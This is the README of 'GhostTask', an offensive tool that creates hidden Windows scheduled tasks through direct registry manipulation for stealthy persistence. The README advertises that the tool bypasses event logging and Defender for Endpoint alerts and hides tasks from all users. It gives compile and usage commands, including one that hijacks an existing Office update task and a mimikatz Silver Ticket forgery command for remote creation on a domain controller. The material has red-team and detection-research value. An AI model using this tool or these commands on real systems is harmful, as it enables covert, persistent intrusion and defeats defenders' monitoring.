 # Ghost Scheduled Task
While using scheduled tasks as a means of persistence is not a novel approach, threat actors have employed various techniques to conceal their malicious tasks. A notable method involves [removing the SD registry key](https://www.microsoft.com/en-us/security/blog/2022/04/12/tarrask-malware-uses-scheduled-tasks-for-defense-evasion/), which represents the security descriptor, thereby obscuring the scheduled task from forensic investigations.

Inspired by [WithSecure](https://twitter.com/WithSecure)'s research on [Scheduled Task Tampering](https://labs.withsecure.com/publications/scheduled-task-tampering), they explained the feasibility of creating a scheduled task solely through registry key manipulation. Such an approach can bypass the generation of scheduled task creation event logs, like `4698` and `106`, offering a more stealth method of establishing persistence. In light of these insights, I've crafted this POC to demonstrate creating scheduled tasks via direct registry manipulation.

Given the undocumented nature of the registry key data structures related to scheduled tasks, my methodology for crafting them primarily relied on trial and error by comparing them with legitimate scheduled tasks. I also made references to the interfaces within `Taskschd.h` and drew extensively from [Cyber.WTF Windows Registry Analysis – Today's Episode: Tasks](https://cyber.wtf/2022/06/01/windows-registry-analysis-todays-episode-tasks/). This research was invaluable in guiding me to formulate the data structures for key registry components, such as `Triggers`, `Actions`, and `DynamicInfo`, which were essential to construct a functional scheduled task.

The tool offers the following features:
- Creates scheduled tasks with a restrictive security descriptor, making them invisible to all users.
- Establishes scheduled tasks directly via the registry, bypassing the generation of standard Windows event logs.
- Provides support to modify existing scheduled tasks without generating Windows event logs.
- Supports remote scheduled task creation (by using specially crafted Silver Ticket).
- Supports to run in C2 with in-memory PE execution module (e.g., `BruteRatel's memexec`)

*Remark:
- As of October 21, 2023, this tool has been tested on Windows 10, Windows Server 2016, 2019, and 2022
- As of October 21, 2023, no alert and no scheduled task creation event (`ScheduledTaskCreated` action type) will be generated in MDE (Microsoft Defender For Endpoint)
- To create a scheduled task using this tool, **"NT AUTHORITY/SYSTEM"** privileges are required
- After configuring the scheduled task, you'll need to either **restart the system** or **await the next reboot** for the task to be loaded into the "Schedule" service process and subsequently executed

## Usage
```
Usage: GhostTask.exe <hostname/localhost> <operation> <taskname> <program> <argument> <username> <scheduletype> <time/second> <day>
- hostname/localhost: Remote computer name or "localhost".
- operation: add/delete
  - add: Create or modify a scheduled task using only registry keys. Requires restarting the "Schedule" service to load the task definition.
  - delete: Delete a scheduled task. Requires restarting the "Schedule" service to offload the task.
- taskname: Name of the scheduled task.
- program: Program to be executed.
- argument: Arguments for the program.
- username: User account under which the scheduled task will run.
- scheduletype: Supported triggers: second, daily, weekly, and logon.
- time/second (applicable for 'second', 'daily', and 'weekly' triggers):
  - For 'second' trigger: Specify the frequency in seconds for task execution.
  - For 'daily' and 'weekly' triggers: Specify the exact time (e.g., 22:30) for task execution.
- day (applicable for 'weekly' trigger): Days to execute the scheduled task (e.g., monday, thursday).
```

### Compile
```
x86_64-w64-mingw32-gcc GhostTask.c -o GhostTask.exe -lrpcrt4
```

## Examples
### 1. Create a new scheduled task that will call notepad.exe every Monday and Thursday at 2:12 pm:
```
GhostTask.exe localhost add demo "cmd.exe" "/c notepad.exe" LAB\Administrator weekly 14:12 monday,thursday
```
![HowTo](https://github.com/netero1010/GhostTask/raw/main/example1.png)

### 2. Modify existing scheduled task with new schedule type, user and program:
```
GhostTask.exe localhost add "Microsoft\Office\Office Automatic Updates 2.0" "cmd.exe" "/c notepad.exe" LAB\employee001 daily 20:37
```
![HowTo](https://github.com/netero1010/GhostTask/raw/main/example2.png)

### 3. Create a new scheduled task on remote computer:

As discussed in the WithSecure blog ([Extra: Lateral Movement](https://labs.withsecure.com/publications/scheduled-task-tampering) section), you can use specially crafted Silver Ticket to modify registry keys associated to scheduled tasks on . This allows you to create a scheduled task remotely.
```
kerberos::golden /domain:LAB.CORP /sid:S-1-5-21-1111111111-1111111111-1111111111 /aes256:[aes256hash] /user:Administrator /service:cifs /target:dc01.lab.corp /sids:S-1-5-18 /endin:600 /renewmax:10080
```

Create a new scheduled task on the DC01 server remotely, which will launch notepad.exe every day at 3:19 pm:
```
GhostTask.exe DC01.lab.corp add demo "cmd.exe" "/c notepad.exe" LAB\Administrator daily 15:19
```
![HowTo](https://github.com/netero1010/GhostTask/raw/main/example3.png)

## Credits
- [WithSecure](https://twitter.com/WithSecure) for their research [WithSecure Scheduled Task Tampering](https://labs.withsecure.com/publications/scheduled-task-tampering)
- [Cyber.WTF](https://cyber.wtf/) for their research [Windows Registry Analysis – Today’s Episode: Tasks](https://cyber.wtf/2022/06/01/windows-registry-analysis-todays-episode-tasks/)
- [ausecwa](https://github.com/ausecwa) for his [bof-registry](https://github.com/ausecwa/bof-registry)